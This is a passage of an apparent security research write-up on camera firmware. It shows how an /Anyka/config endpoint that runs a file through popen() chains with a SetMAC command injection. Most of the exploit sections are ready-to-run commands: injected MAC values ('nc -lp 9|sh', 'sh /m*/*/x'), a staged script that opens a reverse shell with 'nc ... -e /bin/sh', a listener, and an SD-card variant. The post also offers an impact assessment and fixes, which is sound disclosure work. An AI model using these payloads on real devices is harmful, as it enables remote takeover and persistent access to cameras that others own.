



# Part 3: `/Anyka/config` Executes a File with `popen()`

The `SetMAC` bug was the direct command injection. `/Anyka/config` was different, but it made the exploitation chain a lot more interesting.

The endpoint is:

```text
/Anyka/config
```

Based on the name, I expected something like “read a config file and return it.” That is not what the firmware did.

The handler executes this fixed path through `popen()`:

```text
/etc/jffs2/anyka_cfg.ini
```

So if that file exists and is executable, requesting `/Anyka/config` becomes an execution trigger.



## The log clue

When the file was missing, requesting the endpoint produced a log message like this:

```text
sh: /etc/jffs2/anyka_cfg.ini: not found
```

That was the giveaway. The shell was not trying to read the file. It was trying to execute it.

The request was simple:

```bash
CAM=172.14.10.1
curl -sv -u admin: "http://$CAM/Anyka/config"
```

## The route and helper

The route was registered as an `Anyka` CGI handler:

```c
uVar4 = FUN_00122154(auStack_428, "Anyka", "config", 0);
WEBS_add_cgi(uVar4, Anyka_Configuration, 2);
```

The handler calls a helper with the hard-coded path:



And the helper uses `popen()`:



The response helper returns stdout to the HTTP client as `text/plain`. If the command only writes to stderr, that may show up in logs instead of the HTTP response.

## Why this is not the same as the `SetMAC` bug

This endpoint is not a direct request-controlled command injection. The HTTP request does not control the command string.

The command string is fixed:

```text
/etc/jffs2/anyka_cfg.ini
```

That makes it weaker by itself. An attacker needs a second primitive to create or modify that file.

But once there is a way to write the file, `/Anyka/config` becomes a reliable way to run it.

## Exploit path 1: fully remote staging through `SetMAC`

This is the path that made `/Anyka/config` matter more.

The `SetMAC` injection only gives 11 useful command characters, so it is hard to run a full payload directly. The workaround was to use the tiny payload to start a script receiver:

```text
nc -lp 9|sh
```

That fits inside the `SetMAC` command budget.

The full chain looked like this:

```text
SetMAC command injection
        |
        v
start nc -lp 9|sh on the camera
        |
        v
send a larger script over TCP port 9
        |
        v
write /etc/jffs2/anyka_cfg.ini
        |
        v
request /Anyka/config
        |
        v
anyka_ipc executes the staged file through popen()
```

First, save the current MAC values:

```bash
CAM=172.14.10.1
curl -sv -u admin: "http://$CAM/NetSDK/Factory?cmd=SetMAC"
```

Observed:

```json
{"Wireless":"A4:86:DB:76:23:DE","EthMac":"00:00:00:00:00:00"}
```

Start the camera-side script receiver:

```bash
CAM=172.14.10.1
curl -sv -u admin: \
  -X PUT \
  -H 'Content-Type: application/json' \
  --data-binary '{"Wireless":"1:2:3:4:5:6;nc -lp 9|sh"}' \
  "http://$CAM/NetSDK/Factory?cmd=SetMAC"
```

Then send a larger script to the receiver. This version writes `/etc/jffs2/anyka_cfg.ini` and makes it executable:

```bash
CAM=172.14.10.1
cat <<'EOF' | nc -w 3 "$CAM" 9
cat > /etc/jffs2/anyka_cfg.ini <<'SCRIPT'
#!/bin/sh
nc 172.14.10.2 4444 -e /bin/sh
SCRIPT
chmod 755 /etc/jffs2/anyka_cfg.ini
sync
EOF
```

Start the listener on the host:

```bash
nc -lvnp 4444
```

Trigger the staged file:

```bash
CAM=172.14.10.1
curl -sv -u admin: "http://$CAM/Anyka/config"
```

That gave me a shell from the `anyka_ipc` execution path.


If an attacker already has a way to create or modify `/etc/jffs2/anyka_cfg.ini`, then this endpoint becomes a reliable trigger for executing that file. Because `/etc/jffs2/` is persistent storage, this may also be useful for persistence across reboots.

## Exploit path 2: SD-card staged script

I also tested a physical-access variant. This is less serious remotely, but it is useful for showing what `/Anyka/config` is doing.

Instead of sending the full script over the network, place a short script on the SD card at:

```text
/mnt/tf/x
```

The name is intentionally tiny because the original `SetMAC` injection budget is tiny. During Telnet-based inspection, files under `/mnt/tf/` appeared with permissions like `rwx------` and were owned by `root`, so the staged script could be executed once the card was mounted by the camera.

The flow was:

```text
prepare SD-card script at /mnt/tf/x
        |
        v
insert SD card into camera
        |
        v
use SetMAC injection to run sh /m*/*/x
        |
        v
/mnt/tf/x creates /etc/jffs2/anyka_cfg.ini
        |
        v
request /Anyka/config
        |
        v
anyka_ipc executes /etc/jffs2/anyka_cfg.ini through popen()
```

Create the SD-card script:

```sh
cat > ./x <<'EOF'
#!/bin/sh
echo X_RAN > /mnt/tf/x_ran.txt
cat > /etc/jffs2/anyka_cfg.ini <<'SCRIPT'
#!/bin/sh
nc 172.14.10.2 4444 -e /bin/sh
SCRIPT
chmod +x /etc/jffs2/anyka_cfg.ini
sync
EOF
```

Place it at the SD-card root so the camera sees it as:

```text
/mnt/tf/x
```

Trigger it with `sh` using the short command budget:

```bash
CAM=172.14.10.1
curl -sv -u admin: \
  -X PUT \
  -H 'Content-Type: application/json' \
  --data-binary '{"Wireless":"1:2:3:4:5:8;sh /m*/*/x"}' \
  "http://$CAM/NetSDK/Factory?cmd=SetMAC"
```

Or source it:

```bash
CAM=172.14.10.1
curl -sv -u admin: \
  -X PUT \
  -H 'Content-Type: application/json' \
  --data-binary '{"Wireless":"1:2:3:4:5:9;. /m*/*/x"}' \
  "http://$CAM/NetSDK/Factory?cmd=SetMAC"
```

Then trigger `/etc/jffs2/anyka_cfg.ini`:

```bash
CAM=172.14.10.1
curl -sv -u admin: "http://$CAM/Anyka/config"
```

The SD-card proof artifact was:

```text
/mnt/tf/x_ran.txt
```

That file confirms the SD-card staged script ran. The `/Anyka/config` request confirms whether the persistent staged file was created and executed.

## Impact

I would not call `/Anyka/config` a direct unauthenticated RCE. That would be overstating it.

The more accurate statement is:

> `/Anyka/config` executes a fixed persistent-storage path through `popen()`. If an attacker can create or modify `/etc/jffs2/anyka_cfg.ini`, the endpoint becomes a staged execution trigger.

In this device, the `SetMAC` command injection provided that write/staging primitive, making the chain practical over the local network.

## Fix

Production firmware should not execute a config file with `popen()`.

Safer options:

- Treat `/etc/jffs2/anyka_cfg.ini` as data, not a program.
- Read it with normal file APIs.
- Do not execute files from writable persistent storage.
- Remove `/Anyka/config` from production builds if it is only for engineering/debug use.
- If a diagnostic endpoint must exist, require strong authentication and avoid shell execution entirely.
